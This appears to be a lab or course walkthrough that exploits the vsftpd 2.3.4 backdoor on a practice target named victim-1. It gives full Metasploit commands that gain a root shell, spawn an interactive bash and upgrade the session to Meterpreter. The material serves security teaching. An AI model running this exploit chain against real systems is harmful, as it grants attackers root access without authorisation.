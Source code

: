 ```
nmap -sV 192.178.80.3
```

```
searchsploit vsftpd
```

```
msfconsole -q
search vsftpd
```

We can set the RHOSTS global variable. It will set th RHOSTS value globally for all modules that you use. 

```
setg RHOSTS 192.178.80.3
use exploit/unix/ftp/vsftpd_234_backdoor
show options
exploit
```

This should provide us with a command shell session, that we can then upgrade to a Meterpreter session. We will gain access to the target system. It looks like we've gained access to the target system as the root user. The root user on Linux is the user account with the highest privileges available. It is the equivalent of the administrator account on Windows.

```
whoami
```

Whenever we're working on a Linux system, we want to obtain a somewhat interactive session. We can spawn a bash session.

```
/bin/bash -i
```

This will provide us with a proper bash terminal on the target system. One of the greate features of bash is that it'll show you your current user `@` the hostname of the system. In this case, we have access to the target system. The target system is called victim-1, and we currently have access to the target system as the root user which means we do not need to perform any privilege escalation.

We can also upgrade this to an Meterpreter session.

Put this in the background.

```
sessions
```

We have our command shell session here.

```
sessions -u 1
sessions
```

We have indeed obtained a Meterpreter session.
